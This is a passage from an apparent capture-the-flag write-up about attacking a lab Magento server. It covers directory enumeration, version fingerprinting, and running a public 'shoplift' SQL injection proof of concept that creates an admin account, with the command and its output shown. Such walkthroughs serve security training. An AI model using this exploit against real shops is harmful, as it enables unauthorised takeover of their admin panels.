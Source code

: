 ```
/downloader (Status: 301)
/mage (Status: 200)
=====================================================
2019/05/11 15:29:57 Finished
===================================================== 

```

#### Version

At the bottom of the page, I notice the copyright date of 2014:

![1568274284636](https://0xdfimages.gitlab.io/img/1568274284636.png)

That’s interesting, as if it’s that old, it should be vulnerable to a lot of exploits. Looing around at common Magento paths, I’ll see a different date on `/index.php/admin/`:

![1568274514407](https://0xdfimages.gitlab.io/img/1568274514407.png)

At `/downloader/`, I see a version number for Magento Connect Manager:

![1568274614559](https://0xdfimages.gitlab.io/img/1568274614559.png)
*Note: `/downloader/` has since been removed from this box, as a way to patch one of the RCE methods.*

I can also check `/RELEASE_NOTES.txt`, but it only gives release notes up to version 1.7.0.2, and then it gives a url to visit for later version release notes, so this isn’t helpful:

![1568274800685](https://0xdfimages.gitlab.io/img/1568274800685.png)

All of this leads me to the conclusion that I don’t really know what version is running, but that I have a hunch that it could be older.

## Shell as www-data

### Add Admin Login

Looking at both Google and `searchsploit`, I’l find a bunch of exploits for Magento. First, I’ll use one called “[shoplift](https://github.com/joren485/Magento-Shoplift-SQLI/blob/master/poc.py)” exploit to add an admin user. I’ll download the python script and run it:

```

root@kali# python poc.py 10.10.10.140
WORKED
Check http://10.10.10.140/admin with creds ypwq:123  

```

I can verify these creds by logging in at http://10.10.10.140/index.php/admin:

![1557609765745](https://0xdfimages.gitlab.io/img/1557609765745.png)
